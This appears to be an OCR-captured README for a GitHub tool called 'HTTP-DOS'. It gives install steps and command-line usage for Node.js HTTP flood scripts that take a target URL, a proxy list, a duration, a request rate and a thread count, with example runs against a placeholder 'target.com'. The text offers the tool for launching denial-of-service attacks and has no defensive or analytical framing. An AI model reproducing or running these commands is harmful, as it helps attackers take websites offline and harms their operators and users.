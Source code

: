 #HTTP-DOS
---------------------------------------------------------------------------
sh install.sh
---------------------------------------------------------------------------
npm i randomstring
---------------------------------------------------------------------------
node jsfile [METHOD] [TARGET] [PROXIES] [DURATION] [RPC] [THREADS]
---------------------------------------------------------------------------
node http1.js GET "https://target.com" http.txt 120 64 1
---------------------------------------------------------------------------
node http2.js GET "https://target.com" http.txt 120 64 1
---------------------------------------------------------------------------
node jsfile [TARGET] [DURATION] [THREADS] [RPC] [PROXIES]
---------------------------------------------------------------------------
node http3.js "https://target.com" 120 1 RPC http.txt
---------------------------------------------------------------------------
